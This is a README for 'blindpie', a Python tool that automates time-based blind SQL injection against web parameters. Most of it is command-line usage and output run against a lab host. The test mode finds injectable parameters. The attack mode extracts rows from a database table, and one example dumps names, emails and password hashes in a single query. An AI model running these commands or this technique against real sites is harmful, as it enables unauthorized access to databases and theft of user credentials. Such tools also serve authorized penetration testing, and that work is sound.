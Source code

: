 # blindpie

`blindpie` is a simple Python script to automate time-based blind SQL injections.<br>

It can be used when the target doesn't print any error or any feedback whatsoever.

It should work fine injecting in SELECT, DELETE, and UPDATE queries. Injections in INSERT queries are supported only for parameters which are unquoted (numeric values).

![Demo](/demo/demo.gif)

## Usage

Use the `--help` command to show the help message:

```
  _     _ _           _       _
 | |   | (_)         | |     (_)
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |
                       |_|

usage: blindpie.py [-h] -u URL -p PARAMS [PARAMS ...] -d DEFAULT [DEFAULT ...]
                   (--post | --get) [-M M] [-T T]
                   {test,attack} ...

A simple tool to automate time-based blind SQL injections.

positional arguments:
  {test,attack}

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     url of the target
  -p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                        parameters for the requests
  -d DEFAULT [DEFAULT ...], --default DEFAULT [DEFAULT ...]
                        default values for the parameters
  --post                use method POST
  --get                 use method GET
  -M M                  attack mode (from 0, the least reliable but the
                        fastest, to 4, the most reliable but the slowest)
  -T T                  number of threads to create when getting multiple rows

Note: the default values must be of the same type of data of the parameters
(use numbers for the parameters which are numbers, strings otherwise).
```

The script provides two modes of operation: the <i>test mode</i> and the <i>attack mode</i>.

### Test mode

The <i>test mode</i> is used to test which parameters of the GET/POST request could be vulnerable to SQL injection.

This is the help message for the <i>test mode</i>:

```
usage: blindpie.py test [-h] --test

optional arguments:
  -h, --help  show this help message and exit
  --test      test for vulnerabilities
```

Use the `--test` flag to test the parameters.

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind_escaped.php` accepts POST requests with parameters `to` and `msg`, where the former is an integer and the latter is a string. The `-d` parameter is used to set the default value for the parameter of the request and to distinguish between numeric values (which in queries are unquoted) and strings (in queries are quoted). Use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.019 sec (done in 0.049 sec)
[*] testing params: |████████████████████████████████████████| 100.0% complete
> RESULTS:
[*] to seems to be vulnerable
[*] msg doesn't seem to be vulnerable
[*] all done in 0.063 sec
```

The script tests each parameter of the request and shows if it seems to be vulnerable or not.

### Attack mode

The <i>attack mode</i> is used to extract data from the database by exploiting vulnerable parameters.

This is the help message for the <i>attack mode</i>:

```
usage: blindpie.py attack [-h] --param PARAM --table TABLE --column COLUMN
                          --row ROW [--rows ROWS] [--max_length MAX_LENGTH]
                          [--min_length MIN_LENGTH]

optional arguments:
  -h, --help            show this help message and exit
  --param PARAM         vulnerable parameter to exploit
  --table TABLE         name of the table from which to select
  --column COLUMN       name of the column to select
  --row ROW             index of the row to select
  --rows ROWS           number of rows to select
  --max_length MAX_LENGTH
                        max length of a selected row
  --min_length MIN_LENGTH
                        min length of a selected row
```

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind.php` accepts GET requests with a parameter named `email`, which is a string. The `-d` parameter is used to set the default value for the parameter. As said before, use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

In this case I'm going to extract the rows from 0 to 3 of the `first_name` column from the table `accounts` by exploiting the `email` parameter of the GET request:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T4 attack --table accounts --column first_name --param email --row 0 --rows 4
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.031 sec (done in 0.096 sec)
[*] row 0 length is 6
[*] row 1 length is 4
[*] row 2 length is 6
[*] row 3 length is 6
[*] getting 4 rows: |████████████████████████████████████████| 100.0% complete (34.583 sec)
> RESULTS:
Arthur
Ford
Tricia
Zaphod
[*] all done in 34.583 sec
```

Note #1: use the `-M` parameter to set the reliability of the script. The value goes from 0 (the least reliable but the fastest) to 4 (the most reliable but the slowest).

Note #2: use the `-T` parameter to set the number of rows to extract concurrently. <strong>Multithreading is suggested during local analysis only. It seems to be less reliable for non local targets.</strong>

The script will test each character of each row and will print the rows found.

### Trick

You can extract multiple columns at once by concatenating the values. Use the `concat` function when specifying the column name:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T10 attack --table accounts --column "concat(id, char(32), first_name, char(32), last_name, char(32), email, char(32), password)" --param email --row 0 --rows 10
  _     _ _           _       _
 | |   | (_)         | |     (_)
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |
                       |_|

[*] avg response time is 0.018 sec (done in 0.054 sec)
[*] row 0 length is 71
[*] row 1 length is 70
[*] row 2 length is 75
[*] row 3 length is 77
[*] row 4 seems to be empty
[*] row 5 seems to be empty
[*] row 6 seems to be empty
[*] row 7 seems to be empty
[*] row 8 seems to be empty
[*] row 9 seems to be empty
[*] getting 10 rows: |████████████████████████████████████████| 100.0% complete (373.877 sec)
> RESULTS:
1 Arthur Dent arthur@guide.com d00ee262cdcbe7543210bb85f6f1cac257b4e994
2 Ford Prefect ford@guide.com 30f5cc99c17426a0d28acf8905c6d776039ad022
3 Tricia McMillan tricia@guide.com bcb3358e273b5772ee0ae1799b612e13cc726b04
4 Zaphod Beeblebrox zaphod@guide.com 0c38530eaca4dbc0f49c459c0c52b362f14215c3
[empty]
[empty]
[empty]
[empty]
[empty]
[empty]
[*] all done in 373.877 sec
```

Note #1: a row can't be longer than `MAX_ROW_LENGTH` (by default is 128) or it will be ignored and considered empty.

Note #2: `char(32)` is the 'space' character.

## Authors

* **Alessio Vierti** - *Initial work*

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
